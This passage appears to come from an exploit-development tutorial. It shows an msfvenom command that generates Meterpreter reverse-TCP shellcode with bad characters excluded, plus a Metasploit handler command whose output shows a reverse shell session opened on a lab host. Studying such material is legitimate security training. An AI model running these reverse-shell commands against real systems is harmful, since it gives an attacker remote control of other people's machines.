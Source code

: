 # Replacing our shellcode
Now we have to use a proper reverse shell shellcode.
Let's create it taking into account the badchars:
```c
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=8080 -b "\x00\x09\x0a\x0b\x0c\x0d\x20" -f python -v shellcode
```

The output shellcode is 544 bytes. We have space, we must check EIP once we have redirected the flow to see how much bytes we can put.
```c
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.0.100; set LPORT 8080; exploit"
[*] Using configured payload generic/shell_reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
LHOST => 192.168.0.100
LPORT => 8080
[*] Started reverse TCP handler on 192.168.0.100:8080 
[*] Sending stage (177734 bytes) to 192.168.0.101
[*] Meterpreter session 1 opened (192.168.0.100:8080 -> 192.168.0.101:57933) at 2025-06-08 13:33:56 -0400
```
